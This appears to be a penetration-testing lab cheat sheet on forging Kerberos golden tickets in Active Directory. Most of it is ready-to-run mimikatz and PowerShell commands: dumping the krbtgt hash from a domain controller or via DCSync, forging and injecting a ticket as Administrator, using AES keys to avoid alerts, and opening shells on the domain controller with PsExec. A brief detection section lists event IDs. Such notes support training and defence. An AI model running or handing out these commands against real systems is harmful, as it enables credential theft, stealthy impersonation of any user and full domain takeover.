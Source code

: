 # Golden Tickets

## General

- Golden ticket is signed and ecrypted by hash of krbtgt account, making it a valid TGT ticket
- Since user account validation is not done by the DC/KDC until TGT is older than 20 minutes, we can use even deleted/revoked accounts
- krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine
- Password change has no effect on this attack

## Exploitation

### Arguments

| Argument | Description |
| --- | --- |
| kerberos::golden | Module name |
| /domain:domain:dollarcorp.moneycorp.local | Domain FQDN |
| /sid:S-1-5-21-1874506631-3219952063-538504511 | SID of the domain |
| /krbtgt:ff46a9d8bd66c6efd77603da26796f35 | NTLM hash of the krbtgt account. Use /aes128 and /aes256 for using AES |
| /User:Administrator | Username for which the TGT is generated |
| /id:500 /groups:512 | Optional User RID (default 500) and Group default 513 512 520 518 519) |
| /startoffset:0 | Optional when the ticket is available (default 0 right now) in minutes. Use negative for a ticket available from past and a larger number for future. |
| /endin:600 | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes |
| /renewmax:10080 | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |
| /ptt | Inject ticket in current PowerShell process |
| /ticket | Save ticket to file for later use |

### Commands

```powershell
# Execute mimikatz on DC as DA to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName "dcorp-dc"

# Use DCSync with DA privileges to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# On any machine
# Inject ticket into current PowerShell session
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /User:Administrator /id:500 /groups:512 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

# Save ticket to file for later use
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /User:Administrator /id:500 /groups:512 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /startoffset:0 /endin:600 /renewmax:10080 /ticket:krbtgt.kirbi"'

# Get domain policy for tickets to set appropriate values
(Get-DomainPolicy -Domain lab.local)."Kerberos Policy"

# Use AES keys to avoid downgrading encryption and generating abnormal traffic/alerts
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /User:Administrator /id:500 /groups:512 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /aes128:AES128KEY /aes256:AES256KEY /startoffset:0 /endin:600 /renewmax:10080 /ticket:krbtgt.kirbi"'

# Inject ticket into current session
Invoke-Mimikatz -Command '"kerberos::ptt krbtgt.kirbi"'
```

### Executing Commands / Getting a Shell

```powershell
# Inject ticket and open command prompt in current context
Invoke-Mimikatz -Command '"kerberos::ptt krbtgt.kirbi" "misc::cmd"'

# Open command prompt on other machine
PsExec.exe -AcceptEULA \\dcorp-dc cmd.exe

# Run command using WMI
gwmi -Class win32_computersystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Detection

- Event IDs:
  - 4624: Account Logon
  - 4634: Account Logoff
  - 4672: Admin Logon

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List -Property *
```
